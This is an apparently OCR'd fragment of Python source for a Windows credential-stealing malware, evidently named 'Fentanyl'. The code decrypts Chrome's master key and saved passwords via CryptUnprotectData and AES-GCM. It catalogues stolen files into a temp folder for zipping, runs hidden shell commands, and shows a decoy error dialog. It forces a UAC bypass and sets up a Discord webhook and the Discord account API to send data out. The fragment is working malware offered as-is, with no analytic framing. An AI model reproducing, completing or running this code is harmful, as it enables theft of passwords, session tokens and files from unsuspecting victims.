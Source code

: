         local_state = json.loads(local_state)
        master_key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
        master_key = master_key[5:]
        master_key = CryptUnprotectData(master_key, None, None, None, 0)[1]
        return master_key
    def decrypt_val(self, buff, master_key) -> str:
        try:
            iv = buff[3:15]
            payload = buff[15:]
            cipher = AES.new(master_key, AES.MODE_GCM, iv)
            decrypted_pass = cipher.decrypt(payload)
            decrypted_pass = decrypted_pass[:-16].decode()
            return decrypted_pass
        except Exception: return f'Failed to decrypt "{str(buff)}" | Key: "{str(master_key)}"'
    def fsize(self, path):
        path = internal.tempfolder + os.sep + path
        if os.path.isfile(path): size = os.path.getsize(path)/1024
        else:
            total = 0
            with os.scandir(path) as it:
                for entry in it:
                    if entry.is_file():
                        total += entry.stat().st_size
                    elif entry.is_dir():
                        total += self.fsize(entry.path)
            size = total/1024
        if size > 1024: size = "{:.1f} MB".format(size/1024)
        else: size = "{:.1f} KB".format(size)
        return size
    def gen_tree(self, path):
        ret = ""
        fcount = 0
        for dirpath, dirnames, filenames in os.walk(path):
            directory_level = dirpath.replace(path, "")
            directory_level = directory_level.count(os.sep)
            indent = "│ "
            ret += f"\n{indent*directory_level}📁 {os.path.basename(dirpath)}/"
            for n, f in enumerate(filenames):
                if f == f'Fentanyl-{os.getlogin()}.zip': continue
                indent2 = indent if n != len(filenames) - 1 else "└ "
                ret += f"\n{indent*(directory_level)}{indent2}{f} ({self.fsize((os.path.basename(dirpath)+os.sep if dirpath.split(os.sep)[-1] != internal.tempfolder.split(os.sep)[-1] else '')+f)})"
                fcount += 1
        return ret, fcount
    def system(self, action):
        return '\n'.join(line for line in subprocess.check_output(action, creationflags=0x08000000, shell=True).decode().strip().splitlines() if line.strip())
class internal:
    tempfolder = None
    stolen = False
class ticks(functions, internal):
    def __init__(self,useless):
        del useless
        if config.get('error'): Thread(target=ctypes.windll.user32.MessageBoxW, args=(0, config.get('error_message'), os.path.basename(sys.argv[0]), 0x1 | 0x10)).start()
        try: admin = ctypes.windll.shell32.IsUserAnAdmin()
        except Exception: admin = False
        if not admin and config['force_admin'] and '--nouacbypass' not in sys.argv: self.forceadmin()
        self.webhook = config.get('webhook')
        self.exceptions = []
        self.baseurl = "https://discord.com/api/v9/users/@me"
        self.appdata = os.getenv("localappdata")
        self.roaming = os.getenv("appdata")
        dirs = [